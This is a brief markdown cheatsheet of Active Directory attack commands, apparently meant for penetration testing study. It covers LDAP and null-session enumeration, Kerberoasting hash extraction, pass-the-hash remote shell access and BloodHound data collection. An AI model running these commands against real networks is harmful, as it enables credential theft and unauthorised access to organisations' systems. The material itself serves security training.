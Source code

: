 # 🧠 Active Directory Cheatsheet

## Enumeration
```bash
ldapsearch -x -h <IP> -b "dc=domain,dc=com"
rpcclient -U "" <IP>
```

## Kerberoasting
```bash
GetUserSPNs.py domain/user:pass@dc_ip -outputfile hashes.txt
```

## Pass-the-Hash
```bash
pth-winexe -U 'DOMAIN\user%LMHASH:NTHASH' //target cmd
```

## BloodHound
```powershell
SharpHound.exe -c all
```